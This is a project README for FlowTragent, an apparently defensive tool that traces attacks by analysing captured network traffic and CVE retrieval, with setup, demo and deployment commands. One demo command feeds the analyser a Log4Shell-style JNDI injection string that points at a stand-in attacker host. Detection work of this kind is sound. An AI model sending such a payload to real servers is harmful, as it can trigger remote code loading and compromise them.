

# FlowTragent

FlowTragent is an automated attack tracing system built around traffic analysis and agent-assisted reasoning.

The project wraps NOVA-F as its core retrieval engine while keeping FlowTragent as an independent system with PCAP parsing, agent analysis, optional RAG context, optional Ollama summaries, and report generation.

## Architecture



FlowTragent keeps the real-time hot path lightweight: capture and prefilter run continuously, deep analysis is rate-limited, duplicate alerts are merged, and Ollama review is scheduled outside the live analyzer.

## Current Layout

```text
FlowTragent/
|-- libs/nova-f/
|-- deploy/
|-- scripts/
|-- src/
|   |-- core/
|   |-- agent/
|   |-- correlation/
|   |-- live/
|   |-- notification/
|   |-- orchestrator/
|   |-- parser/
|   |-- rag/
|   |-- report/
|   `-- storage/
|-- static/
|-- templates/
|-- data/
|   |-- pcap/
|   |-- csv/
|   |-- index/
|   `-- rag/
|-- config/
|-- reports/
|-- tests/
|-- requirements.txt
|-- web_app.py
`-- main.py
```

## Quick Demo

For the unified deployment guide, see [docs/FlowTragent_部署指南.md](docs/FlowTragent_部署指南.md). For WSL Ubuntu notes, see [docs/WSL_Quickstart_CN.md](docs/WSL_Quickstart_CN.md).

One-click local installation on Linux/WSL:

```bash
bash scripts/install.sh
```

The installer creates `.venv`, builds the demo index, generates a local `.env` token when needed, and starts the Web UI. Use `bash scripts/install.sh --docker` for Docker Compose, or `bash scripts/install.sh --no-start` to prepare the environment without starting services.

```bash
cd ~/projects/FlowTragent
python3 -m venv flowtragent_env
source flowtragent_env/bin/activate
python -m pip install --upgrade pip setuptools wheel
python -m pip install -r requirements.txt
python tests/test_nova.py
python main.py --mode payload --input 'GET /?x=${jndi:ldap://evil.example/a} HTTP/1.1 Host: victim' --demo-index
```

Expected result: a JSON/Markdown report is written under `reports/` with impact assessment, CVE candidates, evidence observed/not observed, confidence drivers/reducers, and attack-chain context.

The default embedding model path is local:

```text
libs/nova-f/models/all-MiniLM-L6-v2
```

This avoids HuggingFace downloads when the NOVA-F model files are present locally.

## PCAP Demo

```bash
source flowtragent_env/bin/activate
python tests/make_demo_pcap.py
python main.py --mode pcap --input data/pcap/demo_attack.pcap --demo-index
ls -lh reports/
```

The demo PCAP contains both a Log4Shell-style HTTP request and a `200 OK` response, so reports include response status and impact assessment evidence.

Additional demo traffic:

```bash
python tests/make_post_exploit_pcap.py
python main.py --mode pcap --input data/pcap/demo_post_exploit.pcap --enable-rag

python tests/make_http_beacon_pcap.py
python main.py --mode pcap --input data/pcap/demo_http_beacon.pcap --enable-rag
```

## Web UI and Health Check

Development mode:

```bash
python web_app.py
```

Production-style local launch:

```bash
FLOWTRAGENT_HOST=127.0.0.1 FLOWTRAGENT_PORT=5000 scripts/run_web_prod.sh
curl http://127.0.0.1:5000/health
curl http://127.0.0.1:5000/metrics
```

Open http://127.0.0.1:5000 and submit a payload or PCAP file. Set `FLOWTRAGENT_TOKEN` to protect upload, delete, download, export, graph, and alert views.

## Optional RAG and Ollama

```bash
# Add local ChromaDB seed context to the report.
python main.py --mode pcap --input data/pcap/demo_attack.pcap --demo-index --enable-rag

# Ask local Ollama for an agent summary when ollama serve is running.
python main.py --mode pcap --input data/pcap/demo_attack.pcap --demo-index --enable-rag --enable-ollama
```

## Live Capture Flow

```bash
sudo apt update
sudo apt install -y tcpdump
sudo python main.py --mode live --interface eth0 --capture-seconds 30 --output-dir ./reports
```

Manual capture still works:

```bash
sudo tcpdump -i eth0 -w /tmp/test.pcap
python main.py --mode pcap --input /tmp/test.pcap --output-dir ./reports
```

For long-running server mode, install the systemd units in `deploy/`:

```bash
sudo cp deploy/flowtragent-*.service /etc/systemd/system/
sudo systemctl daemon-reload
sudo systemctl enable --now flowtragent-web flowtragent-capture flowtragent-analyzer
curl http://127.0.0.1:5000/health
```

Docker Compose one-command startup:

```bash
docker compose up --build
```

This starts the Web UI, live analyzer worker, and live capture worker. If the host cannot grant capture permissions to the container, start the Web and analyzer services first:

```bash
docker compose up --build web analyzer
```

## Ollama

```bash
curl -fsSL https://ollama.com/install.sh | sh
ollama pull phi3:mini
OLLAMA_HOST=0.0.0.0:11434 ollama serve
curl http://127.0.0.1:11434/api/generate \
  -d '{"model":"phi3:mini","prompt":"Summarize Log4Shell in one sentence.","stream":false}'
```

## Evaluation and Release Status

- Phase 1, confidence correction: completed. All-4xx traffic is downgraded to attempt-level conclusions unless host-side evidence supports success; reports include fixed evidence and confidence sections.
- Phase 2, architecture split: completed. CLI, Web UI, orchestrator, templates, static assets, and detection thresholds are separated.
- Phase 3, serverization: completed. Token protection, upload validation, gunicorn startup, `/health`, and systemd units are available.
- Phase 4, performance and batch processing: completed. NOVA-F batch search, alert deduplication, cross-window merge, live rate limiting, and scheduled Ollama review are implemented.
- Phase 5, evaluation and release: completed. DataCon baseline metrics, three-class evaluation fixtures, deployment documentation, Dockerfile, and Compose entrypoints are available.
- Phase 6, retrieval evaluation loop: completed as an engineering baseline. Full DataCon scale still depends on a dataset with at least 10,000 usable samples.
- Phase 7, detection expansion: completed. Zeek/Suricata logs, DNS/TCP/ICMP expansion, endpoint/application correlation, and cross-window activity views are available.
- Phase 8, observability: completed. `/metrics`, JSON Lines audit logs, Webhook notification, notification suppression, and log retention guidance are available.
- Phase 9, open-source readiness: completed. Governance files, English README, API docs, architecture docs, GitHub templates, Dockerfile, and Docker Compose startup have been validated; local port `5000` may be replaced with `5050` when occupied.

Current DataCon demo-index baseline is documented in [docs/FlowTragent_DataCon检索评估报告.md](docs/FlowTragent_DataCon检索评估报告.md). With the demo index, the sample evaluation recorded 132 samples, Top-1 accuracy `0.0000`, Top-5 recall `0.0076`, and macro CVE Top-5 recall `0.0102`; this is a baseline for tooling validation, not a full-index quality claim.

## Project Documents

- [English README](README_EN.md)
- [Deployment Guide](docs/FlowTragent_部署指南.md)
- [API Reference](docs/API.md)
- [Architecture](docs/ARCHITECTURE.md)
- [DataCon Retrieval Evaluation Report](docs/FlowTragent_DataCon检索评估报告.md)
- [Contributing Guide](CONTRIBUTING.md)
- [Changelog](CHANGELOG.md)
- [License](LICENSE)

## Verification

```bash
pytest tests/
python tests/test_web_app.py
```

Scapy-dependent PCAP tests should run in a Linux/WSL environment with the project dependencies installed.

## Common Fixes

```bash
# Missing venv support
sudo apt update
sudo apt install -y python3-venv python3-pip

# PCAP capture permission
sudo setcap cap_net_raw,cap_net_admin=eip "$(command -v tcpdump)"

# pip temporary directory has no space
mkdir -p ~/pip-tmp ~/pip-cache
TMPDIR=~/pip-tmp PIP_CACHE_DIR=~/pip-cache python -m pip install -r requirements.txt

# WSL cannot reach Ollama from Windows or another WSL distro
OLLAMA_HOST=0.0.0.0:11434 ollama serve
```
